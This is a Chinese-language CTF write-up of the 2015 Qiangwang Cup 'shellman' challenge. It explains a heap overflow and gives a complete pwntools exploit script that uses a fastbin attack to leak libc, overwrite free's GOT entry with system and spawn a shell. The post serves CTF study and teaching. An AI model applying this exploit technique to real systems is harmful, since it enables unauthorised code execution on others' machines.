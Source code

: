 ```yaml
---
title: 【CTF】shellman堆溢出
date: 2017-12-21 21:24:10
categories: CTF
tags:
    - 堆溢出
    - fastbin
---
```


题目来自于2015年强网杯的一道二进制题目shellman, 程序流程很清晰，阅读ida逆向后的代码很容易发现在编辑shellcode时存在溢出，一道很明显的堆溢出二进制漏洞，至于怎么利用，初始想的是利用fastbin attackg攻击，改掉shellcode管理中记录分配的地址，再利用edit功能，修改给出的函数的got地址，改为shellcode地址，后来发现开启的堆栈保护，不能利用，由于堆内容是可控的，结合delete功能，修改free函数的got地址为system地址，system执行堆上的命令，具体细节网上也很多，可参考后文链接，只是网上的都是基于堆溢出+unlink的攻击方式，这里给出堆溢出加fastbin attack的攻击方法, 详情见POC.

<!-- more-->
* POC

```Python
# -*- coding: utf-8 -*-

from pwn import *

context.arch='amd64'
context.os='linux'
context.word_size = 64
context.log_level = 'debug'

io = process('./shellman')

stack_addr = 0x6016C0 + 8*3*2
free_got_addr = 0x601600
system_offset_free = -258400    # ubuntu16.04 glibc 2.2.5

def new_code(code):
    io.recvuntil('> ')
    io.sendline('2')
    io.recvuntil(': ')
    io.sendline(str(len(code)))
    io.recvuntil(': ')
    io.send(code)

def delete_code(idx):
    io.recvuntil('> ')
    io.sendline('4')
    io.recvuntil(': ')
    io.sendline(str(idx))

def edit_code(idx, code):
    io.recvuntil('> ')
    io.sendline('3')
    io.recvuntil(': ')
    io.sendline(str(idx))
    io.recvuntil(': ')
    io.sendline(str(len(code)))
    io.recvuntil(': ')
    io.send(code)

def list_code():
    io.recvuntil('> ')
    io.sendline('1')

new_code('A'*32)
new_code('A'*16)
new_code('A'*32)
delete_code(1)

overflow = 'A'*32 + p64(1)+p64(33)+p64(stack_addr)
edit_code(0, overflow)
new_code('/bin/sh\x00')

new_code(p64(free_got_addr))
list_code()

io.recvuntil('SHELLC0DE 2: ')
free_addr = io.recvline().strip()[:16]
addrs = []
for i in range(0, len(free_addr), 2):
    addrs.append(free_addr[i:i+2])
addrs.reverse()
free_addr = ''.join(addrs)
print 'leak libc free addr: ' + free_addr

system_addr = int(free_addr, 16) + system_offset_free

edit_code(2, p64(system_addr))
delete_code(1)
io.interactive()
```

## REF

1. [伪造堆块绕过unlink检查 ctf-QiangWangCup-2015-shellman ](http://www.cnblogs.com/shangye/p/6261606.html)
2. [linux堆溢出实例分析](http://tyrande000.how/2016/03/21/linux%E5%A0%86%E6%BA%A2%E5%87%BA%E5%AE%9E%E4%BE%8B%E5%88%86%E6%9E%90/)